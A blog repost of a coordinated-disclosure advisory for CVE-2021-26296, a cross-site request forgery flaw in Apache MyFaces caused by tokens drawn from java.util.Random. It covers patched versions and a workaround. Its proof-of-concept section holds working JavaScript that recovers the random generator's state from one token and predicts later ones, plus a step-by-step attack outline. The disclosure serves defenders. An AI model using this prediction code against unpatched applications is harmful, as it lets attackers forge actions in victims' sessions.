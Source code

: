 ```yaml
---
layout: post
title: Apache MyFaces 2.x Cross Site Request Forgery
date: 2021-02-22 02:27 +0300
categories: [Exploits, Cross-Site Request Forgery (CSRF)]
tags: [exploits]
---
```








![](../../../assets/img/Exploits/ApacheM.png)

There is a cross-site request forgery vulnerability present in Apache MyFaces versions 2.2.13 and earlier, 2.3.7 and earlier, 2.3-next-M4 and earlier, as well as 2.1 and earlier.

  

```
MD5 | a8e80747410cdf24bd08eed09d1cb041
```

```perl
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    ~                Ceritude Securiy Advisory - CSA-2021-001                   ~
    ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~
     PRODUCT          : Apache MyFaces
     VENDOR           : The Apache Software Foundation
     SEVERITY         : High
     AFFECTED VERSION : <=2.2.13, <=2.3.7, <=2.3-next-M4, <=2.1 branches
     IDENTIFIERS      : CVE-2021-26296
     PATCH VERSION    : 2.2.14, 2.3.8, 2.3-next-M5, 3.0.0
     FOUND BY         : Wolfgang Ettlinger, Certitude Lab
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    
    Introduction
    ------------
    
    Apache MyFaces is an open-source implementation of JSF. During a quick
    evaluation, Certitude found that the default CSRF protection of Apache MyFaces
    was insufficient as the CSRF tokens the framework generates can be guessed by
    an attacker.
    
    Moreover, the patch provided by the Apache MyFaces maintainers affects the way
    channel tokens for websocket communication are generated. It is unclear,
    whether this change fixes a vulnerability.
    
    Vulnerability Overview
    ----------------------
    
    Applications that employ the MyFaces JSF framework transmit a parameter
    "javax.faces.ViewState" with every state-modifying request. Though not
    intended for CSRF protection, in the default configuration this parameter
    prevents trivial attacks, as it is sufficiently long and tied to a single
    session.
    
    However, by default, this value is generated using the insecure random number
    generator `java.util.Random`. An attacker can therefore obtain a ViewState
    parameter from the application and, based on this value, predict the random
    part of ViewState parameters subsequently issued to other users. Besides the
    random string, the ViewState parameter contains a sequence number. As the
    initial value of the per-session sequence counter is 1, an attacker can very
    easily guess this value.
    
    As the ViewState parameter is the sole CSRF protection, knowledge of this
    value allows an attacker to conduct CSRF attacks.
    
    When Apache MyFaces is used in client-side saving mode, the ViewState
    parameter is insufficient to protect against CSRF. Instead, pages that require
    protection against CSRF can be marked as "protected-pages". For these pages,
    Apache MyFaces requires CSRF token for each request ("javax.faces.Token"). By
    default, the CSRF token too is generated using `java.util.Random`, thus
    allowing an attacker to bypass the CSRF protection.
    
    NOTE: Besides the ViewState parameter and the CSRF token, Apache MyFaces also
    introduced a cryptographically secure random number generator for the
    websocket channel token. Certitude has not verified if this change fixes a
    vulnerability.
    
    Proof of Concept
    ----------------
    
    By default, the class
    `org.apache.myfaces.application.viewstate.RandomKeyFactory` is used to
    generate ViewState parameter values. This class uses the method
    `java.util.Random#nextBytes` as well as a per-session counter value to
    generate ViewState strings.
    
    The following JavaScript snippet demonstrates the generation of the random
    part of a ViewState value based on the random part of a previously issued
    ViewState parameter:
    
    ``` {.javascript}
    const multiplier = 0x5DEECE66Dn;
    const addend = 0xBn;
    const mask = (1n << 48n) - 1n;
    
    const unbyte = (bytes, offset) => BigInt(
        Array.from(bytes.slice(offset, offset + 4))
        .map((b, i) => b << (8 * i))
        .reduce((a, b) => a + b));
    
    const longify = n => integer(n, 8n);
    const intify = n => integer(n, 4n);
    const byteify = n => integer(n, 1n);
    
    function integer(n, len) {
        const bits = len * 8n;
        const hspan = 1n << (bits - 1n);
        return ((n + hspan) % (2n * hspan)) - hspan;
    }
    
    const hexToByteArray = s => (new Uint8Array(s.length / 2)
        .map((_, i) => (
            parseInt(s.charAt(2 * i), 16) << 4 |
            parseInt(s.charAt(2 * i + 1), 16))));
    
    const byteArrayToHex = b => (Array.from(b)
        .map(x => (((x + 0x100).toString(16)).substr(-2)))
        .reduce((a, b) => a + b))
        .toUpperCase();
    
    // based on https://github.com/fta2012/ReplicatedRandom/blob/master/ReplicatedRandom.java
    function replicatedRandom(bytes) {
        let seed = 0;
    
        replicateState(
            unbyte(bytes, bytes.length - 8), 32n,
            unbyte(bytes, bytes.length - 4), 32n);
    
        return nextBytes(bytes.length);
    
        function replicateState(nextN, n, nextM, m) {
            const upperMOf48Mask = ((1n << m) - 1n) << (48n - m);
            const oldSeedUpperN = (nextN << (48n - n)) & mask;
            const newSeedUpperM = (nextM << (48n - m)) & mask;
    
            let possibilityCount = 0;
    
            for (let oldSeed = oldSeedUpperN;
                    oldSeed <= (oldSeedUpperN | ((1n << (48n - n)) - 1n));
                    oldSeed++) {
                const newSeed = longify(
                    longify(oldSeed * multiplier + addend) & mask);
    
                if ((newSeed & upperMOf48Mask) == newSeedUpperM) {
                    possibilityCount++;
                    seed = newSeed;
                }
            }
    
            if (possibilityCount != 1) throw new Error('replicateState failed');
        }
    
        function next(bits) {
            seed = longify(longify(seed * multiplier + addend) & mask);
            return intify(seed >> (48n - bits));
        }
    
        function nextBytes(count) {
            const res = new Int8Array(count);
    
            for (let i = 0; i < count; ) {
                let rnd = next(32n);
                for (let n = Math.min(count - i, 4); n > 0; n--) {
                    res[i++] = parseInt(byteify(rnd));
                    rnd >>= 8n;
                }
            }
    
            return res;
        }
    }
    ```
    
    An attacker can exploit this issue as follows:
    
    1.  An attacker lures an authenticated victim to an attacker-controlled
        website.
    2.  As the victim opens the website, the attacker requests a ViewState value
        from the application.
    3.  The exploit script opens the target JSF page e.g. in an iframe. For this
        page, the vulnerable application generates a new random ViewState value.
    4.  The attacker now predicts a number of the random strings based on the
        ViewState value received in step 2. As the victim's ViewState value is
        generated just after the attacker's ViewState value, it is very likely,
        that the victim's ViewState value is among the generated ones.
    5.  The exploit script sends several CSRF requests containing combinations of
        predicted random strings and sequence numbers. If guessed correctly, the
        vulnerable application accepts the attacker's request.
    
    A similar approach is possible to attack protected pages. Unlike the ViewState
    values, the CSRF token generated, however, do not contain a sequence counter.
    
    Resolution
    ----------
    
    The Apache MyFaces maintainers have released a patch that addresses the
    identified issue. Certitude recommends affected organizations to immediately
    upgrade to version 2.2.14, 2.3.8, 2.3-next-M5 or 3.0.0. If an upgrade to the
    latest version is not possible, the Apache MyFaces maintainers recommend
    setting the following settings to "secureRandom":
    
    -   org.apache.myfaces.RANDOM_KEY_IN_VIEW_STATE_SESSION_TOKEN
    -   org.apache.myfaces.RANDOM_KEY_IN_CSRF_SESSION_TOKEN
    -   org.apache.myfaces.RANDOM_KEY_IN_WEBSOCKET_SESSION_TOKEN
    
    Note that the patch introduces changes in the way websocket channel tokens are
    generated. Certitude therefore recommends applying the patch or workaround to
    all applications that use Apache MyFaces, even if CSRF attacks are of no
    concern.
    
    Timeline
    --------
    
      ---------------------------------------------------------------------------
      Date         Text
      ------------ --------------------------------------------------------------
      2020-12-15   Sending encrypted vulnerability description and proof of
                   concept script to the Apache security team
    
      2020-12-15   Apache security team acknowledges receipt
    
      2020-12-28   Apache MyFaces team member requests proof of concept script
    
      2021-01-04   Asking for encrypted communication channel
    
      2021-01-04   Vendor provides PGP key
    
      2021-01-05   Sending encrypted proof of concept
    
      2021-01-07   Vendor requests more information about the PoC
    
      2021-01-08   Providing requested information
    
      2021-01-19   Coordination call with vendor
    
      2021-01-26   Coordination call with vendor
    
      2021-02-02   Coordination call with vendor, release of patches is imminent
    
      2021-02-09   Coordination call with vendor, 3 of 4 patches have been
                   released
    
      2021-02-15   Coordination call with vendor, last patch release is in
                   progress
    
      2021-02-19   Public release of the advisory
      ---------------------------------------------------------------------------
    
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
                                               (c) 2021 Certitude Consulting GmbH
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
{: .nolineno }
    

<br>        

  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)